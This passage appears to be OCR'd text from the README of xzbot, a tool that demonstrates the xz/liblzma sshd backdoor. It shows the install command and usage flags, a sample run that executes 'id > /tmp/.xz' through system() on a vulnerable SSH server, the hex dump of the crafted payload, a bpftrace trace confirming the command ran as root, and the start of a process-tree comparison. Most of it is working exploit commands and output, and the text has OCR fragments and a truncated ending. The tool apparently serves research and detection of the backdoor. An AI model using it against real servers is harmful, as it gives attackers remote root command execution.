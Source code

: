 The first 4 bytes of the header (i.e. cmd1)
The first 5 bytes of the command
The first 32 bytes of the sha256 hash of the server's hostkey
backdoor demo
$ go install github.com/amlweems/xzbot@latest
```
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
The following will connect to a vulnerable SSH server at 127.0.0.1:2222 and run the command id > /tmp/.xz:

$ xzbot -addr 127.0.0.1:2222 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  02 00 00 00 01 00 00 00  |................|
00000180  00 00 00 00 00 00 00 00  54 97 bc c5 ef 93 e4 24  |........T......$|
00000190  cf b1 57 57 59 85 52 fd  41 2a a5 54 9e aa c6 52  |..WWY.R.A*.T...R|
000001a0  58 64 a4 17 45 8a af 76  ce d2 e3 0b 7c bb 1f 29  |Xd..E..v....|..)|
000001b0  2b f0 38 45 3f 5e 00 f1  b0 00 15 84 e7 bc 10 1f  |+.8E?^..........|
000001c0  0f 5f 50 36 07 9f bd 07  05 77 5c 74 84 69 c9 7a  |._P6.....w\t.i.z|
000001d0  28 6b e8 16 aa 99 34 bf  9d c4 c4 5c b8 fd 4a 3c  |(k....4....\..J<|
000001e0  d8 2b 39 32 06 d9 4f a4  3a 00 d0 0b 0f a2 21 c0  |.+92..O.:.....!.|
000001f0  86 c3 c9 e2 e6 17 b4 a6  54 ba c3 a1 4c 40 91 be  |........T...L@..|
00000200  91 9a 2b f8 0b 18 61 1c  5e e1 e0 5b e8 00 00 00  |..+...a.^..[....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/03/30 00:00:00 ssh: handshake failed: EOF
On the vulnerable server, we can set a watchpoint for the call to system() and observe the command is executed:

$ bpftrace -e 'watchpoint:0x07FFFF74B1995:8:x {
    printf("%s (%d): %s\n", comm, pid, str(uptr(reg("di"))))
}'
Attaching 1 probe...
sshd (1234): id > /tmp/.xz

$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
The process tree after exploitation looks different from a normal sshd process tree:

```
# normal process tree
```
$ ssh foo@bar
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root        1026     765  7 18:51 ?        00:00:00  \_ sshd: foo [priv]
foo         1050    1026  0 18:51 ?        00:00:00      \_ sshd: foo@pts/1
```